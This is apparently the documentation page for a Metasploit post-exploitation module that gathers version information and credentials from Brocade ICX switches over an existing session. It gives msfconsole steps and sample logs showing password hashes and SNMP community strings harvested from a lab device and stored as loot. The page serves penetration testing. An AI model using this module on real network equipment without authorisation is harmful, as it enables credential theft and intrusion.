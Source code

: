 ## Vulnerable Application

This module has been tested on the following hardware/OS combinations.

* Brocade ICX 6430-24
  * Firmware: 08.0.20T311

The ICX config can be found [no passwords](https://github.com/h00die/MSF-Testing-Scripts/blob/master/brocade_icx6430_nopass.conf),
[hashes](https://github.com/h00die/MSF-Testing-Scripts/blob/master/brocade_icx6430_pass.conf)

This module will look for the following parameters which contain credentials:

* FastIron
  * `show configuration`

!!! keep in mind 'password-display'
http://wwwaem.brocade.com/content/html/en/command-reference-guide/fastiron-08040-commandref/GUID-169889CD-1A74-4A23-AC78-38796692374F.html
!!! need to be able to give a password to enable

  * super-user-password
  * username
  * SNMP

## Verification Steps

1. Start msfconsole
2. Get a shell
3. Do: ```use post/networking/gather/enum_brocade```
4. Do: ```set session [id]```
5. Do: ```set verbose true```
6. Do: ```run```

## Options

## Scenarios

### ICX 6430-24, FastIron 08.0.20T311

#### SSH Session with password-display off

```
resource (brocade.rb)> use post/networking/gather/enum_brocade
resource (brocade.rb)> set session 1
session => 1
resource (brocade.rb)> set verbose true
verbose => true
resource (brocade.rb)> run
[*] In a non-enabled cli
[*] Getting version information
[*] OS: 08.0.30hT311
[+] Version information stored in to loot /root/.msf4/loot/20190601203656_default_10.0.4.51_brocade.version_751557.txt
[*] Gathering info from show configuration
[!] password-display is disabled, no password hashes displayed in config
[*] Post module execution completed
```

#### SSH Session with Enable run

```
resource (brocade.rb)> use post/networking/gather/enum_brocade
resource (brocade.rb)> set session 1
session => 1
resource (brocade.rb)> set verbose true
verbose => true
resource (brocade.rb)> run
[*] In an enabled cli
[*] Getting version information
[*] OS: 08.0.30hT311
[+] Version information stored in to loot /root/.msf4/loot/20190601221921_default_10.0.4.51_brocade.version_839783.txt
[*] Gathering info from show configuration
[+] password-display is enabled, hashes will be displayed in config
[+] enable password hash $1$QP3H93Wm$uxYAs2HmAK0lQiP3ig5tm.
[+] User brocade of type 8 found with password hash $1$f/uxhovU$dST5lNskZCPQe/5QijULi0.
[+] ENCRYPTED SNMP community $MlVzZCFAbg== with permissions ro
[+] ENCRYPTED SNMP community $U2kyXj1k with permissions rw
[*] Post module execution completed
msf5 post(networking/gather/enum_brocade) > loot

Loot
====

host       service  type             name         content     info                   path
----       -------  ----             ----         -------     ----                   ----
10.0.4.51           brocade.version  version.txt  text/plain  Brocade Version        /root/.msf4/loot/20190601221959_default_10.0.4.51_brocade.version_003751.txt
10.0.4.51           brocade.config   config.txt   text/plain  Brocade Configuration  /root/.msf4/loot/20190601222004_default_10.0.4.51_brocade.config_998514.txt

msf5 post(networking/gather/enum_brocade) > creds
Credentials
===========

host       origin     service         public   private                             realm  private_type
----       ------     -------         ------   -------                             -----  ------------
10.0.4.51  10.0.4.51  22/tcp          enable   $1$QP3H93Wm$uxYAs2HmAK0lQiP3ig5tm.         Nonreplayable hash
10.0.4.51  10.0.4.51  161/udp (snmp)           $MlVzZCFAbg==                              Nonreplayable hash
10.0.4.51  10.0.4.51  161/udp (snmp)           $U2kyXj1k                                  Nonreplayable hash
10.0.4.51  10.0.4.51  22/tcp          brocade  $1$f/uxhovU$dST5lNskZCPQe/5QijULi0         Nonreplayable hash
```
